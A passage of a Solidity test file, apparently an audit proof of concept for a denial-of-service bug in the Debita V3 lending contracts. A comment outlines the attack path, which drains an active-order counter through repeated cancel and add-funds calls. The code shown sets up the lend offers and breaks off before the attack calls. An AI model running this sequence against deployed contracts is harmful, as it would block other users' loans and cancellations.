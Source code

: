 ```solidity
            address(DebitaV3AggregatorContract)
        );
    }


    // Attack path:
    // 1. multiple lend offers are created
    // 2. borrow offer is created
    // 3. lender1 executes cancelOffer -> addFunds multiple times until DLOFactory::activeOrdersCount == 0
    // 4. user calls matchOffersV3 and another lender calls cancelOffer. Both should fail
    function testDOSAttack() public {
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);
        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);

        ratioLenders[0] = 1e18;
        ratio[0] = 1e18;
        acceptedPrinciples[0] = wETH;
        acceptedCollaterals[0] = USDC;
        oraclesActivated[0] = false;

        // Create multiple lend offers
        vm.startPrank(lender1);
        wETHContract.approve(address(DLOFactoryContract), 5 ether);

        address lendOffer1 = DLOFactoryContract.createLendOrder({
            _perpetual: false,
            _oraclesActivated: oraclesActivatedLenders,
            _lonelyLender: false,
            _LTVs: ltvsLenders,
            _apr: 1000,
            _maxDuration: 8640000,
            _minDuration: 86400,
            _acceptedCollaterals: acceptedCollaterals,
            _principle: wETH,
            _oracles_Collateral: oraclesCollateral,
            _ratio: ratioLenders,
            _oracleID_Principle: address(0x0),
            _startedLendingAmount: 5e18
        });

        vm.startPrank(lender2);
        wETHContract.approve(address(DLOFactoryContract), 5 ether);

        address lendOffer2 = DLOFactoryContract.createLendOrder({
            _perpetual: false,
            _oraclesActivated: oraclesActivatedLenders,
            _lonelyLender: false,
            _LTVs: ltvsLenders,
            _apr: 1000,
```